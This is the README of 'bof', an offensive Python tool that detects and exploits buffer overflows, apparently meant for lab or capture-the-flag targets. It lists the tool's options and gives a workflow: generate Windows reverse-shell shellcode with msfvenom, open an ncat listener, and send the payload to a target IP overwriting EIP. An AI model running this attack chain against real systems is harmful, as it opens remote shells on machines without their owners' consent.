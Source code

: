 # bof

Simple tool to detect and exploit buffer overflows.

<img src="https://raw.githubusercontent.com/sudoaza/bof/main/images/bof.svg" alt="bof Buffer Overflow exploitation script usage" width="960" />

## Usage

usage: bof.py [-h] -H HOST -p PORT -o OFFSET [-e EIP] [-b BIN] [-s SIZE] [-sf SUFFIX] [-pf PREFIX] [-a ARCH] [-O OS]

Exploit buffer overflows.

Options:
- -h, --help            show this help message and exit
- -H HOST, --host HOST  Target host
- -p PORT, --port PORT  Target port
- -o OFFSET, --offset OFFSET EIP offset
- -e EIP, --eip EIP     Value to overwrite EIP with or ROP chain. Ie. 0x01010101,0x02020202,0x03030303
- -b BIN, --bin BIN     Target binary to extract gadgets from. Only ELF!!
- -s SIZE, --size SIZE  Payload size
- -sf SUFFIX, --suffix SUFFIX  Payload suffix, Ie. USER
- -pf PREFIX, --prefix PREFIX Payload prefix, Ie. \n
- -a ARCH, --arch ARCH  Target architecture. Ie. x86 or amd64
- -O OS, --os OS        Target OS. Ie. windows or linux
- -v, --debug           Show debug information


Create custom shellcode and save to shellcode.py
(must be formatted buf = b'\x90\x90\x90\x90...')

    msfvenom -p windows/shell_reverse_tcp ... -f python -a x86 > shellcode.py

Listen for shell

    ncat -lvp 4444


Run by passing the return address to overwrite EIP

    ./bof.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -e '0x080414c3'


Run by passing a binary and search for a JPM ESP ROP automatically


    ./bof.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -b ./vuln

## Install

    git clone git@github.com:sudoaza/bof.git
    cd bof
    pip install -r requirements.txt

